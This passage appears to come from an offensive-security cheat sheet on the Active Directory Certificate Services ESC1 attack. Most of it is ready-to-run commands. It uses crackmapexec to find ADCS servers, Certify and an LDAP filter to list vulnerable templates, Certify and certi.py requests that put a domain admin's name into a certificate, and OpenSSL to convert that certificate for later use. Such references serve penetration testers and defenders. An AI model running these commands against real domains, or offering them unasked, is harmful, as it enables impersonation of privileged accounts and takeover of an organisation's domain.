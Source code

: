 
### Active Directory Certificate Services

Find ADCS Server : `crackmapexec ldap domain.lab -u username -p password -M adcs`

#### ESC1 - Misconfigured Certificate Templates

> Domain Users can enroll in the **VulnTemplate** template, which can be used for client authentication and has **ENROLLEE_SUPPLIES_SUBJECT** set. This allows anyone to enroll in this template and specify an arbitrary Subject Alternative Name (i.e. as a DA). Allows additional identities to be bound to a certificate beyond the Subject.

Requirements:
*  Template that allows for AD authentication
* **ENROLLEE_SUPPLIES_SUBJECT** flag
* [PKINIT] Client Authentication, Smart Card Logon, Any Purpose, or No EKU (Extended/Enhanced Key Usage) 

Exploitation:
* Use [Certify.exe](https://github.com/GhostPack/Certify) to see if there are any vulnerable templates
    ```ps1
    Certify.exe find /vulnerable
    or
    PS> Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=lab,DC=local'
    ```
* Use Certify or [Certi](https://github.com/eloypgz/certi) to request a Certificate and add an alternative name (user to impersonate)
    ```ps1
    # request certificates for the machine account by executing Certify with the "/machine" argument from an elevated command prompt.
    Certify.exe request /ca:dc.domain.local\domain-DC-CA /template:VulnTemplate /altname:domadmin
    certi.py req 'contoso.local/Anakin@dc01.contoso.local' contoso-DC01-CA -k -n --alt-name han --template UserSAN
    ```
* Use OpenSSL and convert the certificate, do not enter a password
    ```ps1
    openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
    ```
